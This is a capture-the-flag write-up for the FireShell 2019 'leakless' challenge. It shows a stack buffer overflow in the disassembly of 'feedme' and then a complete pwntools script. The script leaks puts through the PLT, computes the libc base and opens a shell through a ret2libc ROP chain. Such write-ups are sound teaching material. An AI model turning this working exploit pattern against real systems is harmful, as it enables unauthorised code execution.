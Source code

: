 +++
title = "FireShell 2019 - leakless"
date = "2019-01-28 06:54:21"
categories = ["pwn", "writeup"]
+++
## download
- [binary](/assets/fireshell/leakless/leakless)
- [solve.py](/assets/fireshell/leakless/solve.py)

## summary
1. buffer overflow in `sym.feedme`
```asm
0x080485cb  push ebp
0x080485cc  mov ebp, esp
0x080485ce  push ebx
0x080485cf  sub esp, 0x44               ; stack frame size = 0x44
0x080485d2  call sym.__x86.get_pc_thunk.ax
0x080485d7  add eax, 0x1a29
0x080485dc  sub esp, 4
0x080485df  push 0x100                  ; nbyte = 0x100 <--- overflow
0x080485e4  lea edx, dword [ebp-0x48]
0x080485e7  push edx                    ; void *buf
0x080485e8  push 0                      ; int fd
0x080485ea  mov ebx, eax
0x080485ec  call sym.imp.read           ; ssize_t read(fd, buf, nbytes)
0x080485f1  add esp, 0x10
0x080485f4  nop
0x080485f5  mov ebx, dword [ebp-0x4]
0x080485f8  leave
0x080485f9  ret
```
2. straight to the point ret2libc ROP as the binary still has `puts` to use as leak

## exploit
```python
#!/usr/bin/env python
from pwn import *
import sys

context.terminal = ['tmux', 'split-window', '-h']
elf = ELF('./leakless', checksec=False)

if sys.argv.__len__() == 3:
    r = remote(sys.argv[1], int(sys.argv[2]))
    libc = ELF('./libc.so.6', checksec=False)
else:
    r = elf.process()
    libc = ELF('/usr/lib32/libc.so.6', checksec=False)
    gdb.attach(r, 'b *0x080485f9')

payload  = 'A' * 76
payload += p32(elf.plt['puts'])
payload += p32(elf.sym['feedme'])
payload += p32(elf.got['puts'])

r.sendline(payload)
leak = r.recv()
# print hex(u32(leak[0:4]))
libc.address = u32(leak[0:4]) - libc.symbols['puts']

payload  = 'A' * 76
payload += p32(libc.sym['system'])
payload += p32(libc.sym['exit'])
payload += p32(next(libc.search('/bin/sh')))

r.sendline(payload)

r.interactive()
```

## footnote
As the name implies, this problem shouldn't be fairly easy because
I guess the intended solution should be using `ret2dlresolve`.
